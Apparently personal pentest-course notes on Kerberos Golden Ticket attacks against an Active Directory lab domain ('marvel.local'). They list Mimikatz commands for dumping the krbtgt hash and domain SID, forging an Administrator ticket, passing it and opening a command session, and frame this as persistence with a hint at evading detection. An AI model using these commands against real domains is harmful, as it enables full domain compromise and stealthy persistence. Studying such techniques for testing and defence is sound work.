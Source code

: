 Golden Ticket Attacks

* contuning from the Mimikatz
	* use the krbtgt ntln hash 
		* lets us request any resource or ticket granting service on the entire domain 
* lsadump::lsa /inject /name:krbtgt
	* returns the sid of the domain
	* the ntml hash of the ticket granting account 
	* can genreate ticket with the stuff above 
* kerberos::golden /User:Administrator (whatever you want it to be) /domain:marvel.local /sid:sid from above /kbrtgt:from above/id:500 (The admin account of 500) /ptt (pass the ticket)
	* generates the golden ticket before passing the ticket to the next session 
	* opens a command prompt to any computer on the domain 
	* msic::cmd
		* opens a new session with the golden ticket 
	* think of the golden ticket as persistance 
		* you can work youself in and give yourself good solid access
		* look into silver ticket since golden tickets are starting to get picked up 